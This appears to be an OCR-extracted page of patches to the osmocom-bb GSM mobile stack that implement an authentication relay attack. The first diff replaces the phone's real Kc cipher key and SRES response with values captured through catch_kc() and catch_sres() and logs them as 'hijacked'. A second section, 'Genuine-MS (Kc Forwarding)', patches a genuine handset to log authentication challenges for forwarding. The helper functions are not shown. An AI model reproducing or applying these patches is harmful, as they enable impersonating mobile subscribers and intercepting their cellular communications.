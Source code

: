 ``` patch
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
+#include "server.h"
+#include "server2.h"
+#include "hex.h"
+#include "hex2.h"
+
 
 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
@@ -945,14 +950,21 @@
 
/* store sequence */
subscr->key_seq = key_seq;
-   memcpy(subscr->key, vec->kc, 8);
+
 
LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
+char *h4ck3d_kc;
+h4ck3d_kc = catch_kc();
+const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
+   char *h4ck3d_sres;
+   h4ck3d_sres = catch_sres();
+   const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
+   memcpy(subscr->key, my_h4ck3d_kc, 8);
nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
-   if (!nmsg)
-   return -ENOMEM;
nmme = (struct gsm48_mm_event *) nmsg->data;
-   memcpy(nmme->sres, vec->sres, 4);
+   memcpy(nmme->sres,my_h4ck3d_sres, 4);
+   LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
+   LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
gsm48_mmevent_msg(ms, nmsg);
 
return 0;
```

## Genuine-MS (Kc Forwarding)

Patch osmocom-bb

``` bash
git clone https://github.com/osmocom/osmocom-bb
git checkout fixeria/trxcon
```

``` patch
diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
--- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
@@ -1651,6 +1651,7 @@
 */
if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
no_sim = 1;
+   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);
 
/* wait for auth response event from SIM */
diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
--- trx/src/host/layer23/src/mobile/subscriber.c2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
```